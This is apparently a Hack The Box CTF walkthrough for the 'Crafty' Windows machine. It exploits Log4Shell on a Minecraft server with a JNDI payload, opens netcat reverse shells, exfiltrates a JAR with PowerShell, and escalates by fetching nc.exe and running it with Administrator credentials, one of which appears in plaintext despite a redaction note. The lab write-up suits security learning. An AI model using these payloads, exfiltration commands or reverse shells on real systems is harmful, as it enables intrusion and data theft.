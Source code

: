 

Welcome to a comprehensive walkthrough of an Easy level machine in Hack The Box's Seasonal Challenges. Despite its classification, this challenge proves to be more of a medium-level difficulty, particularly if you're not using a pwnbox. 



Our journey begins with an initial reconnaissance phase. Using the powerful network scanning tool nmap, we conduct a scan to identify open ports and services:

```bash
nmap -v -T4 10.10.10.10 --min-rate 5000  -Pn -p- 
```

- `-v`: Increased verbosity for detailed scan output.
- `-T4`: Set timing template for faster scanning.
- `--min-rate 5000`: Specified the minimum packet-per-second rate, optimizing scan speed.
- `-Pn`: Skipped host discovery, treating all hosts as online.
- `-p-`: Scanned all 65535 ports, maximizing service discovery.


The scan reveals two crucial open ports: port 80 hosting a website related to Minecraft and port 25565 hosting the actual Minecraft server.

```plaintext
[] Nmap: PORT      STATE SERVICE
[] Nmap: 80/tcp    open  http
[] Nmap: 25565/tcp open  minecraft
[] Nmap: Read data files from: /usr/bin/../share/nmap
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in
```



We can attempt to connect to this server for more information. I used this repository [MCCTeam/Minecraft-Console-Client](https://github.com/MCCTeam/Minecraft-Console-Client/releases) to connect to the Minecraft service. MCC is a third-party tool used to interact with Minecraft servers via the command line.

After connecting, we get the Minecraft version installed. We can search for related application vulnerabilities on the internet. This application, like many others, utilizes the Java logging library.

We could further observe that this service is vulnerable to CVE-2021-44228. This vulnerability can be exploited to execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled.

CVE-2021-44228, a critical vulnerability within the Java logging library, allows arbitrary code execution. Exploiting it involves crafting a payload to manipulate LDAP references, establishing a reverse shell into Crafty's system.

I found this repository [kozmer/log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc/tree/main), which can be used to exploit the vulnerability.

It has a single line use, which sets up the HTTP server, and LDAP referrer and the Java class payload to upload and get us a reverse shell when executed.

```bash
git clone https://github.com/kozmer/log4j-shell-poc.git
```

To make this exploit work, we need to download the relevant dependencies as mentioned in the exploit GitHub page:

```bash
pip install -r requirements.txt
```

Get the compatible version of Java, i.e., '8u20'. Extract and save it with the name 'jdk1.8.0_20' in the same path as that of poc.py file. [Java SE 8 Archive Downloads](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html)

Go to the downloaded POC folder and use this command to download the file (for Linux 64-bit systems):

```bash
wget -c --no-cookies --no-check-certificate --header "Cookie: oraclelicense=accept-securebackup-cookie" https://download.oracle.com/otn/java/jdk/8u202-b08/1961070e4c9b4e26a04e7f5a083f551e/jdk-8u202-linux-x64.tar.gz
```

After installing all the dependencies, initiate the Minecraft client to connect to the server:

```bash
┌──(root💀kali)-[/home/kali/Minecraft-Console-Client]
└─# ./MinecraftClient-20240130-245-linux-x64 <username>
```


![Pasted image 20240219014106](https://github.com/sinhaprerit/HTB-Crafty-Walkthrough/assets/124435549/1b82343a-5382-4ebf-a837-fb68fb639ac1)

(Note: Press enter when it prompts for a password, as in setting no password. Input server IP (HTB target IP), and we should be connected to the server)

[start netcat listener in 2nd tab]

```bash
nc -nvlp 9001
```

[Execute the POC script in the third tab]

```bash
$ python3 poc.py --userip 10.10.10.10 --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit Java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://10.10.10.10:1389/a}

Listening on 10.10.10.10:1389
```

(If you are connected to HTB VPN, be sure to select the IP associated with the HTB VPN in `--userip`)

Now we need to send this command in the Minecraft console:

```bash
${jndi:ldap://10.10.10.10:1389/a}
```

After sending this command, we receive a reverse shell on our netcat listener. We could see a LDAP redirect and the HTTP 'GET' request to download and execute the payload 'Exploit.class' for the initial foothold.



![Pasted image 20240219014236](https://github.com/sinhaprerit/HTB-Crafty-Walkthrough/assets/124435549/5a973019-ccc2-4b26-81bd-b357e640c3ae)


We can do a few checks on the system to view files, assessable directories, and current privileges.

![Pasted image 20240219014403](https://github.com/sinhaprerit/HTB-Crafty-Walkthrough/assets/124435549/1f010d2e-032c-4ef0-ad3a-976925de537b)


We've got foothold as a service account `crafty\svc_minecraft` and landed in a Minecraft service directory `C:\users\svc_minecraft\server` . Viewing the files and paths for the Minecraft service hosted, we see few JAR files, and one of them is in the `\plugins` path.

![Pasted image 20240219021701](https://github.com/sinhaprerit/HTB-Crafty-Walkthrough/assets/124435549/6f8ec5d2-1d82-4bbc-baa5-c4881133289e)


![Pasted image 20240219021648](https://github.com/sinhaprerit/HTB-Crafty-Walkthrough/assets/124435549/4da6c36b-eff9-4e46-a0cb-d1741d5e92ee)


We need to retrieve those files and check what all data we can get.

For exfiltrating the file from the victim machine, we can do as follows:

Note: The victim host doesn't have a firewall or antivirus configured.

Setup a post HTTP server and host it on the attacker machine:

```bash
sudo python3 SimpleHTTPServerWithUpload.py -b 10.10.10.10 1234
```

On the victim machine, we can use PowerShell to upload the file to the server.

Note: Navigate to the file where the file is located and execute this, or provide the complete file path.

Start PowerShell:

```bash
powershell -ep bypass
```

Upload the file to the server:

```bash
powershell (New-Object System.Net.Webclient).UploadFile('http://10.10.10.10:1234/', 'playercounter-1.0-SNAPSHOT.jar')
```

Verify by checking file hashes on both hosts to check if the file was transferred successfully:

Check file hash on PowerShell (Victim):

```bash
Get-FileHash c:\users\svc_minecraft\server\plugins\playercounter-1.0-SNAPSHOT.jar -Algorithm MD5
```
```plaintext
Algorithm       Hash                                                                   Path                            
---------       ----                                                                   ----                            
MD5             349F6584E18CD85FC9E014DA154EFE03                                       C:\users\svc_minecraft\server...
```

On attacker:

```bash
┌──(kali㉿kali)-[~/SimpleHTTPServerWithUpload]
└─$ md5sum playercounter-1.0-SNAPSHOT.jar 
349f6584e18cd85fc9e014da154efe03  playercounter-1.0-SNAPSHOT.jar
```

We can extract and view the contents, and we could also view these files on any online Java decompiler.

I used [https://www.decompiler.com/](https://www.decompiler.com/)

Reviewing the files, we notice the authentication pattern, consisting of IP, port, and password. We could find one misconfigured test file with the admin credentials of the 'Administrator' account.

We still have low privileges on the host, and we don't have any other running services where this credential can be leveraged.

With the reverse shell already established, we can attempt `runas /user:administrator`, but this method is ineffective as the shell is non-interactive.


>On the attacker machine, we'll host the executable directory containing nc.exe for HTTP download.

```bash
└─$ sudo python3 -m http.server 80                       
sudo: unable to resolve host kali: Name or service not known
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

And initiate a netcat listener for the shell with administrative privileges.

```bash
nc -nvlp 4444
```

>On the victim machine

We'll use PowerShell, capable of storing values in declared variables.

We create a temp directory, download the hosted netcat binary, and execute it with administrative privileges to get a reverse shell with elevated privileges on the attacker machine

```PowerShell
C:\users\svc_minecraft\server\plugins> cd C:\
C:\> 
C:\>mkdir temp
mkdir temp

C:\>cd temp
cd temp

C:\temp>powershell -ep bypass
powershell -ep bypass
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\temp> wget http://10.10.10.10:80/nc.exe -o nc.exe        
wget http://10.10.10.10:80/nc.exe -o nc.exe
PS C:\temp> ls
ls


    Directory: C:\temp


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        2/13/2024   1:50 AM          59392 nc.exe                                                                


PS C:\temp> $secpasswd = ConvertTo-SecureString "s67u84zKq8IXw" -AsPlainText -Force
$secpasswd = ConvertTo-SecureString "<Redacted>" -AsPlainText -Force
PS C:\temp> $mycreds = New-Object System.Management.Automation.PSCredential ("Administrator", $secpasswd)
$mycreds = New-Object System.Management.Automation.PSCredential ("Administrator", $secpasswd)
PS C:\temp> Start-Process -FilePath powershell.exe -argumentlist "C:\temp\nc.exe 10.10.10.10 4444 -e cmd.exe" -Credential $mycreds
Start-Process -FilePath powershell.exe -argumentlist "C:\temp\nc.exe 10.10.10.10 4444 -e cmd.exe" -Credential $mycreds
PS C:\temp> 
```

-- the credentials are redacted, for you to find!!

>On the attacker machine, we successfully get an administrative reverse shell, which can be further exploited to get a meterpreter shell, dump hashes navigate to the user administrator directory to retrieve the root flag!



